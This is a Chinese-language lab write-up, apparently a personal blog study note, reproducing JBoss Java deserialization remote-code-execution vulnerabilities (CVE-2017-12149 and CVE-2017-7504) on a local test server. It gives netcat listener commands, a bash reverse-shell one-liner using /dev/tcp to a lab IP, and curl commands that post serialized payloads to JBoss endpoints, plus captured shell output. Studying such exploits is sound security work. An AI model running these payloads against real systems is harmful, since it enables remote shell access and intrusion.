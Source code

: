 ```yaml
---
title: Jboss 漏洞学习
date: 2018-03-30 18:13:23
tags:
		- Jboss
categories:
		- 安全研究
---
```


`Jboss`漏洞学习。

<!-- more -->

#### Jboss 漏洞学习

复现一下其中的漏洞，然后学习一下其中的原理。

#### [jboss下载](http://jbossas.jboss.org/downloads)



首先下载环境，根据对应的漏洞下载合适的版本进行测试。

#### 环境搭建

1:在`run.bat`文件中，第一行进行编辑，添加。

	--"set JAVA_HOME=E:\Java\jdk1.7.0_45"(JDK安装目录)

2: 修改`Jboss`的端口

`\server\default\deploy\jbossweb.sar\server.xml`。

修改端口号。

	 <!-- A HTTP/1.1 Connector on port 8080 -->
      <Connector protocol="HTTP/1.1" port="12149" address="${IP}" 
         redirectPort="${jboss.web.https.port}" />

访问`127.0.0.1:12149`，即可看到页面。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-3-30/58007108.jpg)


#### [Jenkins “Java 反序列化”过程远程命令执行漏洞 CVE-2015-8103](https://jenkins.io/security/advisory/2015-11-11/#remote-code-execution-vulnerability-due-to-unsafe-deserialization-in-jenkins-remoting)

#### [JBOSSAS 5.x/6.x 反序列化命令执行漏洞 CVE-2017-12149](https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg)



[工具1](https://github.com/frohoff/ysoserial)
[工具2](https://github.com/joaomatosf/JavaDeserH2HC)

使用工具2：

__1:编译预置payload的java文件__

	 javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java


__2:反弹shell的IP和端口__

	java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap 192.168.145.154 1234

设置监听端口，nc命令学会使用。

	root@kali:~# nc -vv -l -p 1234
	listening on [any] 1234 ...
	connect to [192.168.145.154] from localhost [192.168.145.1] 10244


__3:使用curl向/invoker/readonly提交payload__


	curl http://192.168.86.194:12149/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser


__反弹shell__

	root@kali:~# nc -vv -l -p 1234
	listening on [any] 1234 ...
	connect to [192.168.145.154] from localhost [192.168.145.1] 10244
	Microsoft Windows [�汾 6.1.7601]
	��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
	
	E:\Download\jboss600\bin>ls
	ls
	
	E:\Download\jboss600\bin>dir
	dir
	 ������ E �еľ��� �ĵ�
	 �������к��� 000D-D35E


__抓包__






#### [JBOSSAS 4.x 反序列化命令执行漏洞 CVE-2017-7504](https://www.seebug.org/vuldb/ssvid-96881)

[PoC CVE-2017-7504 - JBossMQ JMS Invocation Layer](https://www.youtube.com/watch?v=jVMr4eeJ2Po)

步骤以下，但是`JBoss4.2.3`没有成功。

	root@kali:~/JavaDeserH2HC# javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1.java

	监听端口
	root@kali:~# nc -vv -l -p 2345
	listening on [any] 2345 ...

	root@kali:~/JavaDeserH2HC# java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1 '/bin/bash -i>&/dev/tcp/192.168.145.154/2345<&1'

	root@kali:~/JavaDeserH2HC# curl http://192.168.86.194:7504/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1.ser

	



#### 序列化资料集锦

[JBoss安全问题总结](http://cb.drops.wiki/drops/papers-178.html)

[how deserializing objects will ruin your day](https://frohoff.github.io/appseccali-marshalling-pickles/)

[Java反序列化测试备忘录](http://ph0rse.me/2018/02/04/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B5%8B%E8%AF%95%E5%A4%87%E5%BF%98%E5%BD%95/)

[Lab for Java Deserialization Vulnerabilities](https://github.com/joaomatosf/JavaDeserH2HC/)


[PoC CVE-2017-7504 - JBossMQ JMS Invocation Layer](https://www.youtube.com/watch?v=jVMr4eeJ2Po)

[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? ](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#jenkins)

[JBoss “Java 反序列化”过程远程命令执行漏洞](https://www.seebug.org/vuldb/ssvid-89723)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)





